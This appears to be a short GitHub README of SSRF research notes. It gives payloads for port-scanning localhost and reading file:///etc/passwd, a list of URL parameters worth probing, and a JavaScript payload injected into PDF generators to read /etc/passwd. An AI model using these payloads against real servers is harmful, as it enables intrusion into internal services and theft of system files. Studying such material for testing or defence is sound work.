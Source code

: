 # ssrf
ssrf reserch
SSRF or Server Side Request Forgery means fraud in server side requests. In this type of vulnerability, an attacker can connect the server to send malicious requests to internal or external resources. This vulnerability allows the attacker to access sensitive resources and may lead to leaking of sensitive information, intrusion into internal services or even control over the server.

What access does the SSRF vulnerability give the attacker

1_ Scan port
To perform port scan, it is enough to use http or https protocol
for example

    https://127.0.0.1:80

2_ Reading files
We use //:file to read files
for example

    file:///etc/passwd

blind ssrf:

For example, we want to perform a port scan on the target

Payload
  
    http://127.0.0.1:80

If the vulnerability is blind ssrf, how to find out whether the port is open or wrong

    1_ Pay attention to the content-length header
    2- Pay attention to the page loading time

Some functions accept URLs as input, which allows SSRF vulnerabilities if the user can manipulate the data

    _file_get_contents()
    fopen()
    file()
    md5_file()

Parameters that may have an SSRF vulnerability

    ?dest=
    ?redirect=
    ?uri=
    ?path=
    ?continue=
    ?url=
    ?window=
    ?next=
    ?data=
    ?reference=
    ?site=
    ?html=
    ?val=
    ?validate=
    ?domain=
    ?callback=
    ?return=
    ?page=
    ?feed=
    ?host=
    ?port=
    ?to=
    ?out=
    ?view=
    ?dir=

file uoload - ssrf

Web applications commonly utilize PDF generation libraries to generate PDF documents. These pages usually allow users to input the data and then generate a PDF document
Some of the most popular PDF generation libraries used in web applications :

    TCPDF
    PDFKit
    iText
    FPDF

Payload:

    <script>
    x=new XMLHttpRequest; 
    x.onload=function(){document.write(btoa(this.responseText))}; 
    x.open("GET","file:///etc/passwd");x.send() 
    </script>
